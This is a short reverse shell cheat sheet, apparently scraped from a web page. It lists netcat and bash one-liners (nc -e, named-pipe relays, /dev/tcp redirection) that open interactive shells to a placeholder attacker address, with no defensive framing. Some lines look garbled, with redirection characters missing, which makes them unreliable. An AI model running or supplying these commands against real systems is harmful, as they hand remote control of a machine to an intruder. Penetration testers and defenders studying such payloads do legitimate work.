 # Reverse Shell Cheat Sheet

## Netcat Reverse Shells

> nc -e /bin/sh 10.0.0.1 1234

> /bin/sh | nc ATTACKING-IP 80

> rm -f /tmp/p; mknod /tmp/p p && nc ATTACKING-IP 4444 0/tmp/p

If you have the wrong version of netcat installed, Jeff Price points out here that you might still be able to get your reverse shell back like this:

> rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f

## Bash Reverse Shells

> exec /bin/bash 0&0 2>&0

> 0<&196;exec 196<>/dev/tcp/ATTACKING-IP/80; sh <&196 >&196 2>&196

> exec 5<>/dev/tcp/ATTACKING-IP/80
>
> cat <&5 | while read line; do $line 2>&5 >&5; done
>
> **or**
>
> while read line 0<&5; do $line 2>&5 >&5; done

> bash -i >& /dev/tcp/ATTACKING-IP/80 0>&1
